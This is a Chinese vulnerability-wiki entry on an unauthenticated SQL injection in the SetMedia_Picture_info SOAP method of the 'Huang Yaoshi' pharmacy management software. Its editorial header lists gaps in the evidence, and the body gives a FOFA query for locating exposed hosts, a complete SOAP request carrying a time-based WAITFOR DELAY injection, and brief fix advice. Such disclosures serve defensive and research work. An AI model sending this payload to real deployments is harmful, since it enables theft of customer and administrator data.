


# 《黄药师》药业管理软件SetMedia_Picture_info存在SQL注入漏洞

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：黄药师药业管理软件XSDService
- 文献类型：SQL注入简要PoC
- 版本、权限及部署边界：文称未认证；SQLServer WAITFOR，SetMedia_Picture_info写业务接口，版本缺
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. SOAP info_data=base64Binary为类型占位而非保证合法Base64，Content-Length:length也是占位，可能在SQL前解析失败
2. frontmatterbody=残缺正文完整；HTTP/XML未围栏容易HTML吞tag，需回源结构化
3. 只有5秒延迟payload和未视检图，无基线/真假对照；接口可能改变媒体记录需标副作用
4. 在野已知/影响广无出处，SQLi到系统权限需DB特权链；无厂商修复版本链接

### 操作风险

只有5秒延迟payload和未视检图，无基线/真假对照；接口可能改变媒体记录需标副作用

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<http://tempuri.org/SetMedia_Picture_info>
- 原文参考链接（未重新核验）：<http://www.w3.org/2001/XMLSchema-instance>
- 原文参考链接（未重新核验）：<http://www.w3.org/2001/XMLSchema>
- 原文参考链接（未重新核验）：<http://schemas.xmlsoap.org/soap/envelope/>
- 原文参考链接（未重新核验）：<http://tempuri.org/>
- 原文参考链接（未重新核验）：<https://github.com/SourByte05/Vulnerability-Wiki-PoC>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

# 漏洞描述

《黄药师》药业管理软件XSDService.asmx处存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 此漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

# 影响版本

《黄药师》药业管理软件

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="XSDService.asmx"

POC/EXP：

POST /XSDService.asmx HTTP/1.1
Host: 127.0.0.1
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/SetMedia_Picture_info"

```xml
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <SetMedia_Picture_info xmlns="http://tempuri.org/">
      <info_id>1';WAITFOR DELAY '0:0:5'--</info_id>
      <info_file_name>string</info_file_name>
      <info_data>base64Binary</info_data>
    </SetMedia_Picture_info>
  </soap:Body>
</soap:Envelope>
```







# 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
